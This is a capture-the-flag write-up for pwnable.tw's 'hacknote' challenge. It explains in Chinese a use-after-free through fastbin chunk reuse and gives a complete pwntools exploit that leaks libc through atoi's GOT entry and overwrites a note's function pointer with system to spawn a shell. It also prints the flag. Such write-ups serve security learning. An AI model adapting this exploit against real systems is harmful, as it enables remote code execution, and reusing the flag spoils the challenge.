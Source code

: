 # hacknote [200 pts]

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## concept

首先 add 兩塊比 note struct size 還大的 content 接著把他們 free 掉

之後 add 一塊 content 大小為 note struct size 的 memory 根據 fast bin 他的 content 會拿到之前 free 掉的 chunk，存在 **use after free** 的漏洞

將 (*printnote)() 填入 print_note_content 的 address 改掉 *content 為 atoi 的 got 接著 call print_note 即可藉此 address 算出 libc base address

再來 add 一塊比剛剛兩個都大的 memory 接著 free 掉，再 add note struct size 就可以直接蓋掉先前的 note 並直接把 (*printnote)() 改為 system address 並且後面加上 ```;sh;``` 接著 call print_note 就可以獲得 shell

## exploit

```python
#!/usr/bin/env python

from pwn import *

r = remote("chall.pwnable.tw", 10102)
# r = process('./hacknote', env = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc_32.so.6")})

def add_note(sz, data):
    r.sendafter(':', '1')
    r.sendafter(':', str(sz))
    r.sendafter(':', str(data))

def del_note(idx):
    r.sendafter(':', '2')
    r.sendafter(':', str(idx))

def print_note(idx):
    r.sendafter(':', '3')
    r.sendafter(':', str(idx))


print_addr = 0x804862B
atoi_got = 0x804a034

add_note(40, 'lala')
add_note(40, 'gaga')
del_note(0)
del_note(1)
add_note(8, p32(print_addr) + p32(atoi_got))
print_note(0)
libc = u32(r.recvline()[:-1].ljust(4, '\x00')) - 0x002d050
log.info('libc base address: {}'.format(hex(libc)))
del_note(2)

add_note(80, 'aaaa')
del_note(3)
add_note(8, flat([libc + 0x3a940, ";sh;"]))
print_note(0)

r.interactive()
```

## flag

```FLAG{Us3_aft3r_fl3333_in_h4ck_not3}```

